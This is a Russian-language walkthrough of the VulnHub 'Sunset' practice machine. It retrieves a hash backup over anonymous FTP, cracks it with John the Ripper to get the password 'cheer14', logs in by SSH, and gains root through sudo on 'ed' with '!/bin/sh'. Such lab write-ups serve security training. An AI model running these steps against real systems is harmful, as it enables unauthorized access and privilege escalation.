# VulnHub: Sunset Machine Walkthrough

> **Author:** mapanit
> **Date:** 15.07.2026
> **Target IP:** `10.0.2.5`
> **Attacker IP:** `10.0.2.15`
> **Difficulty:** Beginner

---

## Сканирование порта

```bash
nmap -A 10.0.2.5
```

- `-A` — агрессивное сканирование, включая скрипты по умолчанию

Виртуальная уязвимая машина Sunset1 базируется на IP `10.0.2.5`.

**Результат:** доступны два порта:

- `21` — FTP
- `22` — SSH



На порту 21 разрешён анонимный вход по FTP, доступен файл `backup`.

## Вход в FTP

```bash
ftp 10.0.2.5
```



После успешного входа проверяем наличие файла `backup` и забираем его:

```ftp
ls
get backup
exit
```

## Получение пароля из backup



Читаем файл `backup` — внутри хешированные учётные данные. Копируем строку `sunset` полностью и сохраняем в свой файл (например, `hash`).

****



Применяем John the Ripper:

```bash
john hash
```


Показываем результат:

```bash
john hash --show
```



Получен пароль: **`cheer14`**

## Забираем флаг user

Используем полученный пароль для входа по SSH:

```bash
ssh sunset@10.0.2.5
```



Проверяем наличие файлов:

```bash
ls
cat user.txt
```



Найден первый флаг — `user.txt`.

## Забираем флаг root

Переходим в корневой каталог:

```bash
cd /
cd root
```



Доступа к папке `root` нет. Проверяем права sudo:

```bash
sudo -l
```



У пользователя есть право запускать `ed` с правами `root` без пароля (подсказка найдена на [GTFOBins](https://gtfobins.github.io/) для `ed`).





Эксплуатация:

```bash
sudo ed
```



Внутри `ed`:

```
!/bin/sh
```



Получена оболочка с правами **root** — теперь доступна и корневая папка.

---

*Готово.*
